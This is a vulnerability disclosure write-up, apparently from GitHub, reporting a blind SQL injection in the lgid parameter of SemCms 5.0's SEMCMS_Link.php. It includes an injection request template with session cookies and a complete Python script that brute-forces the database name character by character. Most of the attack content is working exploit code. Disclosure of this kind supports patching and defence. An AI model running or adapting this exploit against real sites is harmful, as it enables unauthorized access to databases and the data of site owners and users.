 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_Link.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the lgid parameter in the SEMCMS_Link.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background.Hole source location: SEMCMS_Link. PHP, lgid parameters also have SQL injection vulnerabilities URL: http://localhost:83/admin/SEMCMS_Link.php?lgid=1

![image](https://github.com/user-attachments/assets/4dd0d0fb-f8df-45d9-a0c9-b15309a6d1f5)

When lgid=2, there is no corresponding content!

![image](https://github.com/user-attachments/assets/f1710e41-30f0-4664-b97e-4ed9ed35e1c5)

Determine the length of the database:

![image](https://github.com/user-attachments/assets/3fc42bb0-80dd-413f-916a-2957c10538a1)
![image](https://github.com/user-attachments/assets/3470826c-4410-4db2-8ddb-d2f66d4482c7)

From the above figure, it can be obtained that the length of the database name is 8. Next, determine the specific value of the database name:

![image](https://github.com/user-attachments/assets/60e2119f-ef53-4180-8d68-6e3dea12cc1e)

Finally, the database username is obtained as semcms50, and the yakit data packet:

```
GET /admin/SEMCMS_Link.php?lgid=if(substr(database(),{{int(1-8)}},1)+like+"{{payload(word)}}",1,2) HTTP/1.1
Host: localhost:83
sec-ch-ua-platform: "Windows"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-User: ?1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
```
# Code Analysis
Line 71 of `SEMCMS_Link.php`

![image](https://github.com/user-attachments/assets/1e4e649e-d942-4825-9a8b-c467a59785fa)

The lgid parameters were directly concatenated into the SQL statement, thereby causing an SQL injection vulnerability

# Vulnerability exploitation script
```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要后台路径
# 需要更新Cookie

# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},2,1)'
        resp = send_request(base_url,header).text
        if 'semcms' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",1,2)'
            resp = send_request(base_url, header).text
            if 'semcms' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_Link.php?lgid="
    
    db_len = 0

    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    

```

